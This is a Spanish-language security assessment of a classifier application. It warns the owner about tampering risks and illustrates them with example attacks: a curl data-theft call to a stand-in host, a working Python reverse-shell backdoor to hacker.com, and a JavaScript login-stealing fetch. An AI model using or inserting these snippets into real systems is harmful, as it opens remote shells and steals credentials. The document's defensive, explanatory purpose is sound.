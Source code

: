 # 🔒 ANÁLISIS DE SEGURIDAD - DDIC-SM CLASIFICADOR

## 🚨 **EVALUACIÓN ACTUAL: VULNERABILIDADES CRÍTICAS**

### ❌ **RIESGO EXTREMO - Sistema Completamente Hackeable**

Tu aplicación **ACTUAL** tiene **CERO protección** contra modificaciones maliciosas. Un atacante puede:

#### **1. Modificar Código en Tiempo Real**
```python
# Cualquiera puede editar clasificador.py y agregar:
def clasificar_fila_con_cascada(texto, fila_num):
    # ← MALWARE INSERTADO AQUÍ
    os.system("curl evil-server.com/steal-data")  # Robar datos
    return "CLASIFICACIÓN_FALSA"  # Corromper resultados
```

#### **2. Robar APIs Keys (Costo: Miles de USD)**
```bash
# Abrir .env y ver:
GEMINI_API_KEY=AIzaSyC-tu-clave-costosa-aqui
OPENAI_API_KEY=sk-proj-otra-clave-cara-aqui
# ← Copiar y usar a costa tuya
```

#### **3. Inyectar Backdoors Permanentes**
```python
# En main.py agregar:
import socket, subprocess, threading

def backdoor():
    s = socket.socket()
    s.connect(('hacker.com', 1337))
    while True:
        cmd = s.recv(1024).decode()
        result = subprocess.run(cmd, shell=True, capture_output=True)
        s.send(result.stdout)

threading.Thread(target=backdoor, daemon=True).start()
```

#### **4. Modificar Frontend para Phishing**
```javascript
// En index.html insertar:
function stealCredentials() {
    const formData = new FormData();
    formData.append('usuario', document.getElementById('user').value);
    formData.append('password', document.getElementById('pass').value);
    
    fetch('http://attacker-server.com/steal', {
        method: 'POST',
        body: formData
    });
}
```
